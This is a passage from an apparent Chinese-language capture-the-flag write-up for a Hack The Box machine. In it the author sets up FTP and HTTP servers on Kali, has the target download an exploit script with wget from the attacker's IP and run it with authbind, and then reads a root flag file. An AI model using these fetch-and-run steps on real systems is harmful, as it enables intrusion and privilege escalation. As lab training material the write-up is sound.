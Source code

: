 exp.py内容
[https://raw.githubusercontent.com/Teckk2/Teck_k2/master/Kotarak-wget.py](https://raw.githubusercontent.com/Teckk2/Teck_k2/master/Kotarak-wget.py)
将exp修改ftp的ip为kali的，然后上传至10.10.10.55。

kali: 
```
pip2 install pyftpdlib 
python -m pyftpdlib -p 21 -w
以路径/root，kali开启ftp服务器
```
kali上传wget.py到远程主机：
`python -m SimpleHTTPServer 8080`

远程shell :
```
wget http://10.10.14.5:8080/wget.py
authbind python wget.py
```
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-25-07/5.PNG)

稍等两分钟，10.10.10.55的shell就会返回执行结果，成功获得10.10.3.133的/root/root.txt文件。
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-25-07/6.PNG)
